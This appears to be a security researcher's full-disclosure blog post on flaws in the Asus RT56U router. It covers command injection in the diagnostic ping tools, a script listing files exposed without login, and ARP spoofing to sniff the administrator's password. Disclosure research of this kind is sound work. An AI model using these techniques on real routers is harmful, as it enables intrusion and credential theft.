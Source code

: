 ```yaml
---
categories:
- command injection
- asus
comments: false
date: "2013-06-05T22:45:20Z"
title: Asus RT56U Remote Command Injection
---
```


After discovering a couple vulnerabilities in the Asus RT56U prior, I decided to check out the latest firmware and hunt around for a few more.

I was running 3.0.0.4.342, which happens to be one version behind the latest (3.0.0.4.360), so I did a sweep of both.  I enabled telnet on the router and hunted around, which led me to an unlinked page, Main_Analysis_Content.asp.  This page hosts a slew of diagnostic tools, including the ability to ping network systems.  See where this is going?

{{< figure class="center" src="http://4.bp.blogspot.com/-4C_1Ig7iJos/UZwIsAqjHqI/AAAAAAAAAeo/hC3nnlBbyb8/s640/command_injection.jpg" >}}

And the related source code to this:

```
document.form.SystemCmd.value = "ping -c " + document.form.pingCNT.value + " " + document.form.destIP.value;
```

Pretty trivial, and each command, ping, nslookup, and traceroute, is vulnerable.  The system is running an HTTP web server that serves up ASP pages, so we could wget and deploy a reverse ASP shell or set up a netcat listener.

I then took a look at the latest firmware, which touts the following changes:

```
ASUS RT-N56U Firmware Version 3.0.0.4.360
1. AiCloud
For iOS user, please upgrade app to 1.02.78 or above
(for more information, please refer to http://event.asus.com/2012/nw/aicloud/index.htm)
2. Network tools in Advanced setting
3. WOL user interface
4. H.323 and SIP passthrough can be disabled in Advanced Settings --> WAN -->NAT Passthrough
5. Click the device name and lookup the manufacturer information
6. Change the DHCP query frequency in Advanced settings-->WAN-->Internet connection to resolve the ISP compatibility issue.
```

So it looks like the tools were added in the .342 (or earlier) firmware, but not actually linked until the .360 release.  I then flashed over the firmware to take a look at any changes.  It appeared they added a Network Tools section which, of course, allows us to:

{{< figure class="center" src="http://3.bp.blogspot.com/-ZFhW0bRKM3o/UZwoiPOXXyI/AAAAAAAAAe4/WyTtjhpQEho/s640/asus_exec_360.jpg" >}}

It's kind of ridiculous that we can hit /etc/shadow with this.

As an aside, I thought about what sort of files might be accessible without authenticating to the web server.  Seeing as I had access to enumerate the file system, I constructed a listing of every file in the web server's root.  The code can be seen below:

```
import urllib, urllib2

def get_files():
    files = []
    with open('files_rt.txt', 'r') as f:
        files = [x.strip() for x in f.readlines()]
    print '[!] Built %d files to test...'%len(files)
    return files

def run():
    files        = get_files()
    open_files   = []

    for f in files:
        url = 'http://192.168.1.1/'+f
        try:
            data = urllib2.urlopen(url).read()
        except urllib2.HTTPError as e:
            continue

        open_files.append(url)

    print '[!] %d exposed files'%len(open_files)
    for f in open_files: print '\t[!] %s'%f

def parse_args():
    pass

if __name__ == "__main__":
    run()
```

When run, 42 files were exposed:

```
bryan@devbox:~$ python rt56u_iter.py 
[!] Built 277 files to test...
[!] 42 exposed files
    [!] http://192.168.1.1/NM_style.css
    [!] http://192.168.1.1/Nologin.asp
    [!] http://192.168.1.1/PIE.htc
    [!] http://192.168.1.1/ParentalControl.css
    [!] http://192.168.1.1/WAN_info.asp
    [!] http://192.168.1.1/app_installation.css
    [!] http://192.168.1.1/detect_firmware.asp
    [!] http://192.168.1.1/error_page.htm
    [!] http://192.168.1.1/fan.svg
    [!] http://192.168.1.1/form_style.css
    [!] http://192.168.1.1/get_webdavInfo.asp
    [!] http://192.168.1.1/gotoHomePage.htm
    [!] http://192.168.1.1/httpd_check.htm
    [!] http://192.168.1.1/index_style.css
    [!] http://192.168.1.1/jquery.js
    [!] http://192.168.1.1/menu_style.css
    [!] http://192.168.1.1/other.css
    [!] http://192.168.1.1/pwdmeter.css
    [!] http://192.168.1.1/remote.asp
    [!] http://192.168.1.1/tm.svg
    [!] http://192.168.1.1/tmmenu.css
    [!] http://192.168.1.1/update_applist.asp
    [!] http://192.168.1.1/update_appstate.asp
    [!] http://192.168.1.1/update_cloudstatus.asp
    [!] http://192.168.1.1/ure_success.htm
    [!] http://192.168.1.1/ureip.asp
    [!] http://192.168.1.1/usp_style.css
    [!] http://192.168.1.1/aidisk/AiDisk_style.css
    [!] http://192.168.1.1/aidisk/aidisk.css
    [!] http://192.168.1.1/device-map/device-map.css
    [!] http://192.168.1.1/iui/Button_low.jpg
    [!] http://192.168.1.1/iui/check.png
    [!] http://192.168.1.1/iui/default-theme.css
    [!] http://192.168.1.1/iui/iui.css
    [!] http://192.168.1.1/iui/listArrow.png
    [!] http://192.168.1.1/iui/listArrow_setting.png
    [!] http://192.168.1.1/iui/toolButton.png
    [!] http://192.168.1.1/calendar/fullcalendar.css
    [!] http://192.168.1.1/svghtc/svg.htc
    [!] http://192.168.1.1/svghtc/svg.swf
    [!] http://192.168.1.1/qis/qis_style.css
    [!] http://192.168.1.1/qis/qis_style_m.css
```

A majority of the files are pretty useless/uninteresting, such as the css/jpg/png files, but a couple of the ASP files have some interesting information.  `Nologin.asp` lets us know every address the DHCP server has leased out, as well as the IP of the currently logged in administrator.  `get_webdavInfo.asp` gives us a bunch of great info, including the firmware version, DDNS information, mode of operation, and more.

The only really interesting page to me is `Nologin.asp`.  This gives us the currently logged in administrator; so, if we're on the local network, we can generate a short script that periodically pings the router and alerts us when an admin logs in.  We can then ARPP the administrator and hijack the password; this works because the router's web server doesn't do any session management, it simply uses basic HTTP auth to send the base64'd password.  

Observe:

{{< figure class="center" src="http://1.bp.blogspot.com/-uPMtGiHrr8c/Ua_L3lVLl9I/AAAAAAAAAf4/QIhMSOdOfvM/s640/no_login.jpg" >}}

Now we know where the administrator is logged in.  We can now ARPP the host and hijack the password.  It is unnecessary for the administrator to actually be doing anything, because conveniently the client's browser sends out an ajax request to `/ajax_status.asp` quite often, complete with authentication credentials.  Using zarp, a network attack tool designed by yours truly, we can ARPP the admin and set up a password sniffer:

```
    [Running sessions]
[1] ARP Spoof
    [0] 192.168.1.219
[2] Password Sniffer
    [0] 192.168.1.219


    [1] Stop session
    [2] View session
    [3] Start session logger
    [4] Stop session logger

0) Back
> 2
[module] [number]> 2 0
[!] [enter] when finished
[!] Dumping output from 'Password Sniffer'...
[!] Host: 192.168.1.1
[!] User: admin:*********
```

Immediately we catch a heartbeat and grab the password (edited out). 

Lastly, this is full disclosure.  Check out [this](http://seclists.org/fulldisclosure/2013/Mar/126) listing for how Asus treats security researchers.
